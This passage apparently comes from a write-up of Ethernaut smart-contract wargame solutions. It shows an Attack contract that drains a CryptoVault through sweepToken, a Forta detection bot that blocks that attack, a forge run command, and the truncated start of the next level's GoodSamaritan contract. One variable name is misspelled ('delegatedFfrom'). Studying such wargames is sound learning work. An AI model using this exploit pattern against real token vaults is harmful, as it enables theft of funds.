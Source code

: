 ```solidity
        new Attack().exploit(); //reverted by bot when it tries to exploit

        console.log("Cryptovault balance of DET :", dep.balanceOf(cryptoVault));
        console.log("BOT alerts after exploit: ",forta.botRaisedAlerts(address(bot)));

        vm.stopBroadcast();

    }
}

contract Attack{

    DoubleEntryPoint public dep = DoubleEntryPoint(0xcE33ED049f763622a132480D7348B212777Ee61E);
    address public cryptoVault = dep.cryptoVault();
    address public delegatedFrom = dep.delegatedFrom();

    function exploit() public {
        CryptoVault cv = CryptoVault(cryptoVault);
        cv.sweepToken(IERC20(delegatedFfrom));
    }
}

contract DetectionBot{
    DoubleEntryPoint public dep = DoubleEntryPoint(0xcE33ED049f763622a132480D7348B212777Ee61E);
    address public  cryptoVault = dep.cryptoVault();

    function handleTransaction(address user, bytes calldata msgData)external{

        address origSender;
        assembly{
            origSender:=  calldataload(0xa8)
        }

        if(origSender == cryptoVault){
            Forta(msg.sender).raiseAlert(user);
        }
    }
}
```

**To run the script**

```
$ source .env
$ forge script script/Level26Solution.s.sol:Level26Sol --rpc-url $RPC_URL --broadcast
```

## Good Samaritan

**Level27.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts/contracts/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

```